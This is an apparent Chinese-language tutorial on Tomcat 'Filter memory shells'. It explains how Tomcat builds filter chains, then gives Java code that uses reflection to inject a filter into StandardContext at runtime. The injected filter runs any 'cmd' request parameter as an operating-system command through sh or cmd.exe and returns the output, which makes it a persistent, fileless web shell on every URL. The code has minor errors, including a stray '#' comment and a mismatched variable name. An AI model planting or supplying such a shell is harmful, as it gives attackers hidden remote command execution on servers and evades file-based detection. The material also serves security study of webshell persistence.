


# Filter内存马

## 1.基础知识

> Filter正常是用来处理请求和相应的处理和过滤，如下图：
>
> 
>
> ​										     	来自 --- [中间件内存马注入&冰蝎连接](https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g)

如上图，Filter类似于一个网关的作用，请求需要先通过定义的Filter(可能是一个或多个)，然后再调用到Servlet。

`FilterDef`: 存放`FilterDef`的数组被称为`FilterDefs`，每个`FilterDef`定义了一个具体的过滤器，包括描述信息、名称、过滤器实例以及`class`等，

`FilterDefs`:它只是过滤器的抽象定义.

`FilterConfigs`: 这些过滤器的具体配置实例，我们可以为每个过滤器定义具体的配置参数，以满足系统的需求；

`FilterMaps`: 用于将`FilterConfigs`映射到具体的请求路径或其他标识上，这样系统在处理请求时就能够根据请求的路径或标识找到对应的`FilterConfigs`，从而确定要执行的过滤器链；

`FilterChain`: 由多个`FilterConfigs`组成的链式结构，它定义了过滤器的执行顺序，在处理请求时系统会按照`FilterChain`中的顺序依次执行每个过滤器，对请求进行过滤和处理。

## 2.原理分析

因为在Servlet容器的文章有提到，各个容器之前是父子关系，层层嵌套的也意味着上层具有下层的信息，而Filter是在Wrapper容器中，在Context调用完成之后会先调用Filter然后在调用service方法去触发servlet。当我们定义filter的时候就可以把信息加入到context中，使得当web应用不重启定义的filter就不会失效。

关键点在于 理解的就是为什么我们在standardContext里增加filterDef、filterConfig、filterMap之后就能够动态注册。关键代码位于`ApplicationFilterFactory#createFilterChain(...)`中，以下只摘抄部分进行解释：

当调用到该方法后，先判断 servlet 存不存在：

```java
if (servlet == null) {
    return null;
}
```

判断request对象的父类是不是Request。获取当前的FilterChain，如果没有就创建一个，设置到当前的请求中。

```java
        ApplicationFilterChain filterChain = null;
        if (request instanceof Request) {
            Request req = (Request) request;
            if (Globals.IS_SECURITY_ENABLED) {
                // Security: Do not recycle
                filterChain = new ApplicationFilterChain();
            } else {
                filterChain = (ApplicationFilterChain) req.getFilterChain();
                if (filterChain == null) {
                    filterChain = new ApplicationFilterChain();
                    req.setFilterChain(filterChain);
                }
            }
        } else {
            // Request dispatcher in use
            filterChain = new ApplicationFilterChain();
        }
```

获取 standardContext 之后，通过调用 `findFilterMaps()` 获取所有有定义的filterMap，

```
        StandardContext context = (StandardContext) wrapper.getParent();
        filterChain.setDispatcherWrapsSameObject(context.getDispatcherWrapsSameObject());
        FilterMap filterMaps[] = context.findFilterMaps();

        // If there are no filter mappings, we are done
        if (filterMaps == null || filterMaps.length == 0) {
            return filterChain;
        }
```

遍历获取到的 filterMap 判断是否有匹配 Dispatcher 和 URL，如果有获取 FilterConfig 经过判断后，添加到filterChain中，之后还有 servlet 匹配的逻辑是相同的就是匹配的内容不同。

```java
        // Add the relevant path-mapped filters to this filter chain
        for (FilterMap filterMap : filterMaps) {
            if (!matchDispatcher(filterMap, dispatcher)) {
                continue;
            }
            if (!matchFiltersURL(filterMap, requestPath)) {
                continue;
            }
            ApplicationFilterConfig filterConfig =
                    (ApplicationFilterConfig) context.findFilterConfig(filterMap.getFilterName());
            if (filterConfig == null) {
                // FIXME - log configuration problem
                continue;
            }
            filterChain.addFilter(filterConfig);
        }
```



根据以上的分析，在运行过程中，首先创建一个filterChain，然后获取到当前的 standardContext ，通过它获取已定义的 filterMap，然后再与 Dispatcher、URL、Servlet 进行匹配，匹配成功，往 filterChain 添加 filterConfigs。

## 3.代码实现

```java
  // 获取standardContext
  ServletContext servletContext = request.getSession().getServletContext();
  
  // 获取ApplicationContext
  Field applicationContextFacadeField = ApplicationContextFacade.class.getDeclaredField("context");
  applicationContextFacadeField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(servletContext);
   
  #获取StandardContext
  Field applicationContextField = ApplicationContext.class.getDeclaredField("context");
  applicationContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) applicationContextField.get(applicationContext);
  
  // 创建Filter
  Filter filter = new Filter(){
    @Override
    public void init(FilterConfig filterConfig) throws ServletException{}
    
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
          if (request.getParameter("cmd")!=null){
                String os = System.getProperty("os.name");
                boolean isLinux = true;
                if (os != null && os.toLowerCase().contains("win")){
                    isLinux = false;
                }
                String[] exp = isLinux ? new String[]{"sh","-c",request.getParameter("cmd")} : new String[]{"cmd.exe","/c",request.getParameter("cmd")};
                InputStream in  = Runtime.getRuntime().exec(exp).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }

            filterChain.doFilter(servletRequest,servletResponse);
    }
    
    @Override
    public void destory(){}
    
  };
 
  // 配置filterDef
  FilterDef filterDef = new FilterDef();
  filterDef.setFilter(filter);
  filterDef.setFilterName("MyFilter");
  filterDef.setFilterClass(filter.getClass().getName());
  standardContext.addFilterDef(filterDef);
  
  // 配置filterConfig
  // ApplicationFilterConfig的构造方法是default，那只能通过反射获取
  Constructor<ApplicationFilterConfig> applicationFilterConfigConstructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class)
  applicationFilterConstructor.setAccessible(true);
  ApplicationFilterConfig applicationFilterConfig = applicationFilterConfigConstructor.newInstance(standardContext,filterDef);
  
  Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
  filterConfigsField.setAccessible(true);
  Map map = (Map) filterConfigsField.get(standardContext);
  map.put("MyFilter",applicationFilterConfig);
  
  //配置filterMap
  FilterMap filterMap = new FilterMap();
  filterMap.addURLPattern("/*");
  filterMap.setFilterName("MyFilter");
  filterMap.setDispatcher(DispatcherType.REQUEST.name());
  standardContext.addFilterMapBefore(filterMap); //设置优先
```


